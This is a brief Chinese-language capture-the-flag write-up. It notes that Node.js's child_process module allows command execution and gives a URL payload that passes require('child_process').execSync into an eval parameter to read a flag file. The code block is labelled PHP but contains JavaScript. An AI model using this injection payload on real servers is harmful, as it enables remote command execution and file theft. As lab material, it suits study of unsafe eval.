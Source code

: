 # 知识点
可以通过child_process这个API来进行命令执行<br />[Child process | Node.js v17.9.1 Documentation](https://nodejs.org/docs/latest-v17.x/api/child_process.html#child_processexecsynccommand-options)
# 思路
```php
?eval=require(%22child_process%22).execSync(%27cat fl00g.txt%27)
```
